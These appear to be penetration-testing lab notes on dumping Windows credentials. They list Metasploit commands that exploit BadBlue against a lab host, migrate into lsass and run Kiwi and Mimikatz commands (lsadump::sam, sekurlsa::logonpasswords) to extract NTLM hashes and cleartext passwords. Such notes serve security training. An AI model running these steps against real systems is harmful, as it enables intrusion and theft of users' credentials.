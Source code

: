 Mimikatz
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delphy (@gentilkiwi). It allows for the extraction of the clear-text passwords, hashes, and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where password hashes are cached.
- We can utilize the pre-compiled Mimikatz executable, alternatively, if we have access to a Meterpreter session on a Windows target, we can utilize the inbuilt Meterpreter extension Kiwi.
- Kiwi performs hash dumping within memory, so no malicious binary is uploaded to the target system, and everything is being executed in memory, this subsequently means that there are not as many artifacts left on the target system while using the Kiwi extension.
- Note: Mimikatz will require elevated privileges in order to run correctly, since the lsass.exe process is a privileged process, which runs with System privileges. In order to interact with it, you need Administrative privileges or System privileges.

Practical Demonstration
- `nmap -sV demo.ine.local`
- `service postgresql start; msfconsole`
- `search badblue`
- `use exploit/windows/http/badblue_passthru`
- `options`
- `set RHOSTS demo.ine.local`
- `exploit`
- Meterpreter Session:
	- `sysinfo`
	- `getuid`
	- `pgrep lsass`
	- `migrate 788`
	- `getuid`
	- `load kiwi`
		- `?`
		- `creds_all`
		- `lsa_dump_sam`
			- By executing the command above we get the NTLM hashes for the user accounts present on the system, along with the domain, the users' RIDs, and the SAM database's SysKey.
		- The RID value of 500 confirms that the user given is an Administrator user.
		- `lsa_dump_secrets`
			- By executing the command above, we might be able to retrieve cleartext credentials in some cases.
		- WDigest credentials can be dumped using the `creds_wdigest` command.
		- In case we are working within an Active Directory environment, we can use commands to interact with kerberos tickets as well.
		- The `password_change` command can be used to change the password of a user account.
	- Mimikatz
			- `cd C:\\`
			- `mkdir Temp`
			- `cd Temp`
			- `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
			- `shell`
				- `dir`
				- `.\mimikatz.exe`
					- `privilege::debug`
						- If the previous command provides us with an output of `Privilege '20' OK`, it means that we have the required privileges to perform the hash dump process.
					- `lsadump::sam`
						- By executing the command above we get the NTLM hashes for the user accounts present on the system, along with the domain, the users' RIDs, and the SAM database's SysKey.
						- The RID value of 500 confirms that the given user is an Administrator.
					- `lsadump::secrets`
						- By executing the command above, we might be able to retrieve cleartext credentials in some cases.
					- Using the Mimikatz executable, we can try to display logon passwords, logon passwords are cleartext passwords store on the Windows system in memory whenever a user logs onto windows, if the system is configured to store them.
						- `sekurlsa::logonpasswords`